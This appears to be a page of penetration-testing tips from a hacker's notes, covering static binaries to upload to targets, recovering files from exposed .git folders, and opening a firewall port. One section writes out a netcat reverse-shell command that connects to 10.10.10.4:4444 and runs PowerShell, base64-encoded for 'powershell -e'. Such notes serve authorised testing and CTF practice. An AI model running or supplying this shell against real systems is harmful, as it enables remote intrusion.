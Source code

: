 

# Tips

## Static binaries

Tools like `socat`, `nmap`, ... are rarely installed on machines, however you can upload a static binary and use it.

**List :** ag/the_silver_searcher, binutils, file, ht, nano, nmap, p0fv3, pv(PipeViewer), python, socat, strace, tcpdump, yasm.

**Link :** [github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/tree/master/binaries)

## Windows UTF16 Little Endian

```bash
$ echo 'c:\windows\temp\nc.exe 10.10.10.4 4444 -e powershell' | iconv -t utf-16le | base64 -w 0
YwA6AFwAdwBpAG4AZAB...

C:> powershell -e YwA6AFwAdwBpAG4AZAB...
```

## Extract files from .git

Using git :

```bash
$ ls -al web
total 12
drwxr-xr-x  3 xanhacks xanhacks 4096 Feb  7 14:47 .
drwxr-xr-x 12 xanhacks xanhacks 4096 Feb  7 14:47 ..
drwxr-xr-x  6 xanhacks xanhacks 4096 Feb  7 14:45 .git
$ git --work-tree=$(pwd) checkout HEAD^1 # checkout to a random commit
HEAD is now at 82dfc97 Initial Commit for the back-end
$ git --work-tree=$(pwd) checkout master # come back to the last commit
Previous HEAD position was 82dfc97 Initial Commit for the back-end
Switched to branch 'master
$ ls
css  favicon.png  fonts  img  index.html  js  resources
```

Using [GitTools](https://github.com/internetwache/GitTools) :

```bash
$ ls -al web
total 12
drwxr-xr-x  3 xanhacks xanhacks 4096 Feb  7 14:47 .
drwxr-xr-x 12 xanhacks xanhacks 4096 Feb  7 14:47 ..
drwxr-xr-x  6 xanhacks xanhacks 4096 Feb  7 14:45 .git
$ git clone https://github.com/internetwache/GitTools
[...]
$ bash GitTools/Extractor/extractor.sh web/ output/
[...]
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 70dde80cc19ec76704567996738894828f4ee895
[...]
$ ls output
0-70dde80cc19ec76704567996738894828f4ee895
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
$ ls output/0-70dde80cc19ec76704567996738894828f4ee895
commit-meta.txt  css  favicon.png  fonts  img  index.html  js
```

## Add firewall rule on RedHat / CentOS

```bash
$ firewall-cmd --zone=public --add-port PORT/tcp
$ firewall-cmd --zone=public --add-port 4444/tcp
```
